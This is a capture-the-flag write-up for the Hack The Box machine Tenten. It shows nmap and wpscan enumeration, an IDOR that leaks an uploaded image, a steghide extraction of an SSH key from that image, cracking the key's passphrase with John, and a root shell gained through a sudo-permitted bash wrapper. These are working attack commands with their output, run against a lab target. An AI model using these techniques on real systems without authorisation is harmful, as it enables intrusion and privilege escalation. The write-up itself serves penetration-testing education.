









# HTB - Tenten

#### Ip: 10.10.10.10
#### Name: Tenten
#### Rating: Medium

----------------------------------------------------------------------


### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ sudo nmap -p-  --min-rate 10000 10.10.10.10         
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-10 11:42 CDT
Nmap scan report for 10.10.10.10
Host is up (0.068s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.40 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ sudo nmap -sC -sV -T4 10.10.10.10 -p 22,80     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-10 11:43 CDT
Nmap scan report for 10.10.10.10
Host is up (0.065s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ecf79d380c476ff0130fb93bd4d6e311 (RSA)
|   256 ccfe2de27fef4d41ae390e91ed7e9de7 (ECDSA)
|_  256 8db58318c07c5d3d38df4be1a4828a07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://tenten.htb/
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.96 seconds
```

Based on these results lets go ahead and add tenten.htb to `/etc/hosts`.

Heading to the site we find it's running WordPress.

Lets kick off a wpscan to see if we can find any users:

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ wpscan --url http://tenten.htb --enumerate vp,u,vt,tt


_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://tenten.htb/ [10.10.10.10]
```

Cool, we've found one user named takis.



Lets head back to the site to see what we can find.



Clicking on the Job Listings link we see a job posting we can apply for:


Clicking into the Apply Now button, I'm most interested in the fact that this job or application id is directly represented with an `/8`. 



Playing around with this manually, I see this site has an IDOR vulnerabilty and I can access other materials just by changing the number or ID in the browser. 

### Exploitation

I manually tested this (probably would have been easier to just generate a number list and fuzz this in Burp or with Ffuff), until I reached `/13` which had an interesting attachment:



We can fill out the appplication with test data and submit:



Now that the aplication is sub,itted, we need to find out where the file ended up. This bit was tricky for me. I knew that standard WP files are loaded to `/wp-content/uploads/YEAR/MONTH/FILE` But was having a hard time finding it. I eventually checked when the box was created (May, 2017) and started fuzzing months in 2017. I eventually found our file at http://tenten.htb/wp-content/uploads/2017/04/HackerAccessGranted.jpg where I find a creepy "hacker" guy:



Not knowing exactly what to do with the image file, I downloaded it to my attacking machine and named it "creepy_hacker.jpg." Lets use exiftool to see if there is an steganography in play here, and something is embedded in the image file.

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ steghide extract -sf creepy_hacker.jpg                   
Enter passphrase: 
wrote extracted data to "id_rsa".
``` 

Whoa.. this is an id_rsa? 

Trying to use the key for user takis we see it's protected by a passphrase:

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ chmod 600 id_rsa
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ ssh -i id_rsa takis@10.10.10.10   
The authenticity of host '10.10.10.10 (10.10.10.10)' can't be established.
ED25519 key fingerprint is SHA256:5a3db7g5K/KVQU7u9yholvmJI7kp3pWZj0qtGz4Yr9Q.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.10' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
takis@10.10.10.10's password: 
```

We can use ssh2john to crack this:



Nice, John was able to crack this easily.

We can now login as user takis:

```text
┌──(ryan㉿kali)-[~/HTB/Tenten]
└─$ ssh -i id_rsa takis@10.10.10.10
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

65 packages can be updated.
39 updates are security updates.


Last login: Fri May  5 23:05:36 2017
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

takis@tenten:~$ whoami && hostname
takis
tenten
```

And grab the user.txt flag:



### Privilege Escalation

Running `sudo -l` on the box presents me with an interesting result:

```text
takis@tenten:~$ sudo -l
Matching Defaults entries for takis on tenten:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/fuckin
```

I have no idea what this is, so I turned to Google and found lots of people who REALLY hate Linux for some reason:


Not much help there..

Interesting, it appears to be a Bash script:

```text
takis@tenten:~$ file /bin/fuckin
/bin/fuckin: Bourne-Again shell script, ASCII text executable
takis@tenten:~$ cat /bin/fuckin
#!/bin/bash
$1 $2 $3 $4
```
So in theory we should just be able to run it with `sudo` and whatever command we pass will be executed with root permissions. Lets try it

```text
takis@tenten:~$ sudo /bin/fuckin /bin/bash
root@tenten:~# whoami
root
root@tenten:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Nice! That worked!

Lets grab that final flag:



Thanks for following along!

-Ryan

------------------------------------------------
